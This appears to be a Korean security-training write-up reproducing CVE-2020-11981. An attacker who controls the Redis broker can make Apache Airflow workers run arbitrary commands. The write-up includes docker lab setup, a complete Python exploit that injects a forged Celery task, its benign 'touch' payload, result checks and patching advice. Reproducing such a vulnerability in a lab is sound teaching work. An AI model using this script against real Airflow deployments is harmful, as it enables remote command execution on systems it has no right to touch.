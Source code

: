 # Apache Airflow Celery Broker Remote Command Execution (CVE-2020-11981)

> 화이트햇 스쿨 3기 (20반) - [금도혁]((https://github.com/24kg0ld)
> 

### 요약

- Apache Airflow는 오픈 소스 분산 작업 스케줄링 프레임워크이다.
- 1.10.10 이전 버전에서 Redis 브로커(예: Redis 또는 RabbitMQ)가 공격자에 의해 제어되면, 공격자는 워커 프로세스에서 임의의 명령을 실행할 수 있다.

### 환경 구성 및 실행

- `docker compose run airflow-init` 로 Apache Airflow의 데이터베이스를 초기화
- `docker compose up -d` 를 실행하여 테스트 환경을 실행
- `pip install redis` 로 필요한 라이브러리 설치
- 아래와 같이 `python exploit_airflow_celery.py` 작성

```c
import pickle
import json
import base64
import redis
import sys
r = redis.Redis(host=sys.argv[1], port=6379, decode_responses=True,db=0) 
queue_name = 'default'
ori_str="{\"content-encoding\": \"utf-8\", \"properties\": {\"priority\": 0, \"delivery_tag\": \"f29d2b4f-b9d6-4b9a-9ec3-029f9b46e066\", \"delivery_mode\": 2, \"body_encoding\": \"base64\", \"correlation_id\": \"ed5f75c1-94f7-43e4-ac96-e196ca248bd4\", \"delivery_info\": {\"routing_key\": \"celery\", \"exchange\": \"\"}, \"reply_to\": \"fb996eec-3033-3c10-9ee1-418e1ca06db8\"}, \"content-type\": \"application/json\", \"headers\": {\"retries\": 0, \"lang\": \"py\", \"argsrepr\": \"(100, 200)\", \"expires\": null, \"task\": \"airflow.executors.celery_executor.execute_command\", \"kwargsrepr\": \"{}\", \"root_id\": \"ed5f75c1-94f7-43e4-ac96-e196ca248bd4\", \"parent_id\": null, \"id\": \"ed5f75c1-94f7-43e4-ac96-e196ca248bd4\", \"origin\": \"gen1@132f65270cde\", \"eta\": null, \"group\": null, \"timelimit\": [null, null]}, \"body\": \"W1sxMDAsIDIwMF0sIHt9LCB7ImNoYWluIjogbnVsbCwgImNob3JkIjogbnVsbCwgImVycmJhY2tzIjogbnVsbCwgImNhbGxiYWNrcyI6IG51bGx9XQ==\"}"
task_dict = json.loads(ori_str)
command = ['touch', '/tmp/airflow_celery_success']
body=[[command], {}, {"chain": None, "chord": None, "errbacks": None, "callbacks": None}]
task_dict['body']=base64.b64encode(json.dumps(body).encode()).decode()
print(task_dict)
r.lpush(queue_name,json.dumps(task_dict))

```

- `python3 exploit_airflow_celery.py 127.0.0.1` 로 `touch /tmp/airflow_celery_success` 실행되도록 함

### 결과

- `docker compose logs airflow-worker` 로  `touch /tmp/airflow_celery_success` 가 실행됐다는 로그 를 확인할 수 있다.

![1.png](1.png)

- `docker compose exec airflow-worker ls -l /tmp` 로 `/tmp` 에 `airflow_celery_success` 가 실제로 생성되었음을 확인할 수 있다.

![2.png](2.png)

### 정리

이 취약점은 공격자가 Redis 브로커를 악용해 Apache Airflow의 워커 프로세스에서 임의의 명령을 실행할 수 있게 만든다. 이를 통해 시스템의 권한 상승이나 악성 코드 실행이 가능해져, 실제 운영 환경에선 큰 위험이 될 수 있다. 이런 문제를 예방하려면, 브로커 서버를 안전하게 설정하고, 관련 패치가 나오면 즉시 적용하는 게 중요하다.
